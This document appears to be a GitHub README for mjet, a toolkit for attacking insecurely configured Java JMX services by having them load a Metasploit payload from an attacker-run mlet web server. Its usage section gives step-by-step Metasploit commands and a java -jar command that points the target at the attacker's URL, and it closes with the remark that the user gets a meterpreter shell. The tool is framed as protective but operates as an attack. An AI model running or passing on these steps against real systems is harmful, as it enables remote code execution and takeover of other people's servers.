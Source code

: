 # mjet
Mogwai Java Management Extensions (JMX) Exploitation Toolkit

mjet is a tool that can be used to protect insecure configured JMX services. It is based on
the blog post "Exploiting JMX-RMI" from Braden Thomas/Accuvant "http://www.accuvant.com/blog/exploiting-jmx-rmi" 
and can be used to execute arbitrary Metasploit payloads on the target system.

Mjet was originally planned to be a complete attack toolkit, however we noticed that the Metasploit Github repository contains 
a pull request which will provide basic Java RMI/serialization support in native ruby. This is awesome and removes the Java 
dependency. So we stopped developing this tool  and focus on Metasploit instead.

mjet consists of the following parts:
- A metasploit module which emulates a "mlet Server". This is basically a web server which hosts a html file that contains a mlet tag
- A ManagedBean that is changed by the mlet server module to include the selected payload
- A jar archive that is used to contact the insecure JMX service.


### Installation (with the github version of Metasploit)
- Copy the "MBean" folder to "data/java/metasploit"
- Copy java_mlet_server.rb to "modules/exploits/multi/misc/"

### Usage 

The example uses following systems:
attacker: 192.168.178.1
target: 192.168.178.200, JMX service running on tcp port 1616

- Configure/start the metasploit module "java_mlet_server". The module will run as a background job
```
msf > use exploit/multi/misc/java_mlet_server
msf > set LHOST 192.168.178.1
msf > set SRVHOST 192.168.178.1
msf > set URIPATH /mlet/
msf > run
```

Use mjet.jar to connect to the vulnerable JMX service and provide the URL to the MLet Web server...
```
java -jar mjet.jar -t 192.168.178.200 -p 1616 -u http://192.168.178.1:8080/mlet/
```

and enjoy your meterpreter shell :-)

